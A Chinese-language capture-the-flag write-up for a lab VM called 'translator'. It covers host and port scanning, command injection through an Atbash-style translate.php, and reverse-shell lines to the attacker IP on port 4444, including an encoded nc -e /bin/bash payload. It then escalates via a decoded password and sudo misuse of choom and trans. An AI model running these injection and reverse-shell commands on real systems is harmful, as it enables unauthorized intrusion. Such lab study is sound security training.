

# 信息搜集

主机发现

```csharp
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:39:60:4c, IPv4: 192.168.1.130
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     00:50:56:c0:00:08       VMware, Inc.
192.168.1.2     00:50:56:f2:64:38       VMware, Inc.
192.168.1.131   00:0c:29:72:27:e0       VMware, Inc.
192.168.1.254   00:50:56:f2:d1:ba       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.060 seconds (124.27 hosts/sec). 4 responded
```

端口扫描

```csharp
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.1.131
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-22 02:27 EDT
Nmap scan report for 192.168.1.131
Host is up (0.000079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:72:27:E0 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.41 seconds
                                                                             
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,80 192.168.1.131  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-22 02:29 EDT
Nmap scan report for 192.168.1.131
Host is up (0.00026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 00:0C:29:72:27:E0 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```

# 漏洞利用

看一下80端口


目录扫描

```csharp
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.1.131 -w /home/kali/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,git,zip,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.131
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,png,jpg,html,txt,php,git
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 290]
/translate.php        (Status: 200) [Size: 20]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

只能看一下这个输入框了，输入abc，但是显示zyx


尝试将反弹shell转换一下输入：sh -i >& /dev/tcp/ 192.168.1.130/4444 0>&1，>后面就没了


尝试nc+-e+/bin/bash+192.168.1.130+4444



输入一下：ab;mx+-v+/yrm/yzhs+192.168.1.130+4444，反弹成功


# 提权

看一下都有什么

```csharp
www-data@translator:~/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
www-data@translator:~/html$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
www-data@translator:~/html$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
ocean:x:1000:1000:ocean,,,:/home/ocean:/bin/bash
india:x:1001:1001:,,,:/home/india:/bin/bash
www-data@translator:~/html$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for www-data:
www-data@translator:~/html$ ls -l
ls -l
total 16
-rw-r--r-- 1 www-data www-data  24 May 11  2022 hvxivg
-rw-r--r-- 1 www-data www-data 290 May 11  2022 index.html
-rw-r--r-- 1 www-data www-data  14 May 22 08:51 tr
-rw-r--r-- 1 www-data www-data 258 May 11  2022 translate.php
www-data@translator:~/html$ cat hvxivg
cat hvxivg
Mb kzhhdliw rh zbfie3w4
```

转换一下得到：My password is ayurv3d4，尝试切换用户成功

```csharp
www-data@translator:~/html$ su ocean
su ocean
Password: ayurv3d4

ocean@translator:/var/www/html$ 
```

user.txt

```csharp
a6765hftgnhvugy473f
```

找到可提权地方

```csharp
ocean@translator:~$ sudo -l
sudo -l
Matching Defaults entries for ocean on translator:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ocean may run the following commands on translator:
    (india) NOPASSWD: /usr/bin/choom
```


提权india

```csharp
ocean@translator:~$ sudo -u india /usr/bin/choom -n 0 /bin/sh
sudo -u india /usr/bin/choom -n 0 /bin/sh
$ id
id
uid=1001(india) gid=1001(india) grupos=1001(india)
```

发现可利用地方

```csharp
$ sudo -l
sudo -l
Matching Defaults entries for india on translator:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User india may run the following commands on translator:
    (root) NOPASSWD: /usr/local/bin/trans
```

一个翻译工具


root.txt

```csharp
$ sudo -u root /usr/local/bin/trans -i /root/root.txt -x http://192.168.1.1:7890 -no-autocorrect
sudo -u root /usr/local/bin/trans -i /root/root.txt -x http://192.168.1.1:7890 -no-autocorrect
                                            yfgvbu3432V4635M78h
(h87M5364V2343ubvgfy)

H87M5364V2343UBVGFY

Traducciones de yfgvbu3432V4635M78h
[ ةيبرعلا -> Español ]

yfgvbu3432V4635M78h
    H87M5364V2343UBVGFY
```
